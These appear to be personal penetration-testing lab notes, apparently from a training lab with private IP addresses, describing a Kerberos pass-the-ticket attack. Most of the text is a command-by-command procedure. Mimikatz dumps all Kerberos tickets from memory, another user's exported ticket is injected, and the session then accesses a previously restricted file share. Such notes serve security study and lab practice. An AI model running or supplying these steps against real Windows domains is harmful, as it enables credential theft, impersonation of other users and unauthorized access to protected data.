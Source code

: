 ```yaml
---
IP_KALI: 192.168.45.155
IP_TARGET: 192.168.194.18
---
```

~={red}The TGT only allows us to authenticate to the machine it was created for but the TGS can be used anywhere on the network but only for a specific service. If the ticket belongs to the currect user, no admin privs are required. This attack uses the TGS to gain access to a specific service=~

In mimikatz:
```
privilege::debug
```
- Export all TGT/TGS from memory
```
sekurlsa::tickets /export
```

In PS in same folder:
```
dir *.kirbi
```
- Copy the name of one of the tickets

Back in mimi, replace ticket name and inject it through mimikatz:
```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

In PS, check that the ticket has been injected:
```
klist
```
- Access previously restricted share service:
```
ls \\web04\backup
```